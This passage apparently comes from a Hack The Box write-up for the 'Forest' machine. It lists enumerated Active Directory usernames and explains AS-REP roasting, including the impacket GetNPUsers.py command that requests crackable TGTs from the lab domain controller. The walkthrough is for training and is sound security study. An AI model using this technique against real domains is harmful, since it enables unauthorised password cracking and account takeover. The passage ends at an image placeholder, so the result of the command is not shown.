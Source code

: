 ```text
Group 'Domain Users' (RID: 513) has member: HTB\HealthMailbox0659cc1
Group 'Domain Users' (RID: 513) has member: HTB\sebastien
Group 'Domain Users' (RID: 513) has member: HTB\lucinda
Group 'Domain Users' (RID: 513) has member: HTB\svc-alfresco
Group 'Domain Users' (RID: 513) has member: HTB\andy
Group 'Domain Users' (RID: 513) has member: HTB\mark
Group 'Domain Users' (RID: 513) has member: HTB\santi
Group 'Domain Users' (RID: 513) has member: HTB\rc
Group 'Domain Users' (RID: 513) has member: HTB\ln
```

Take the above usernames and save them in the file _usernames.txt._

```text
root@kali:~/Desktop/htb/forest# cat usernames.txt 
Administrator
DefaultAccount
krbtgt
sebastien
lucinda
svc-alfresco
andy
mark
santi
rc
ln
```

Now I have a bunch of usernames but no passwords. If Kerberos pre-authentication is disabled on any of the above accounts, we can use the [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) impacket script to send __a dummy request for authentication. The Key Distribution Center \(KDC\) will then return a TGT that is encrypted with the user’s password. From there, we can take the encrypted TGT, run it through a password cracker and brute force the user’s password.

When I first did this box, I assumed the Impacket script requires a username as a parameter and therefore ran the script on all the usernames that I found. However, it turns out that you can use the script to output both the vulnerable usernames and their corresponding encrypted TGTs.

```text
GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request
```

We get back the following result.

![](../images/max/1421/1*hEVdVciXL8Uf8Or5CEqKSA.png)
